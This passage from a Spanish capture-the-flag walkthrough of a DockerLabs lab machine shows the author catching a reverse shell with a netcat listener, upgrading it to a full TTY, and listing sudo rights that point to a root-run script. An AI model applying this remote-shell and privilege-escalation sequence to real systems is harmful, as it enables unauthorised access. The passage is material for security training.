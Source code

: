 Vemos que se ha asignado otra IP correctamente, entonces ahora pondremos el puerto que espera la conexión para `172.17.0.186`

~~~ bash
nc -lvnp 6068

listening on [any] 6068 ...
connect to [172.17.0.186] from (UNKNOWN) [172.17.0.2] 47850

whoami
bilter
id
uid=1000(bilter) gid=1000(bilter) groups=1000(bilter),100(users)
~~~


## Tratamiento TTY 

Haremos un tratamiento de la TTY para poder operar de una forma más cómoda

~~~ bash
bilter@dockerlabs:/home/dimer$ export TERM=xterm
bilter@dockerlabs:/home/dimer$ script /dev/null -c bash
Script started, output log file is '/dev/null'.

bilter@dockerlabs:/home/dimer$ ^Z
[1]  + 127548 suspended  nc -lvnp 6068

stty raw -echo;fg          
[1]  + 127548 continued  nc -lvnp 6068
                                      reset xterm
~~~


## Sudoers Privileges - `bilter`

Volveremos a listar los privilegios que tengamos asignados a nivel de `sudoers`, esto debido a que al migrar de usuario, este puede contener otros privilegios

~~~ bash
bilter@dockerlabs:/home/dimer$ sudo -l
Matching Defaults entries for bilter on dockerlabs:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User bilter may run the following commands on dockerlabs:
    (ALL : ALL) NOPASSWD: /usr/local/bin/dead.sh
~~~

Si ejecutamos el script con `sudo`, vemos lo siguiente

~~~ bash
bilter@dockerlabs:~$ sudo /usr/local/bin/dead.sh

161
bilter@dockerlabs:~$ 
~~~
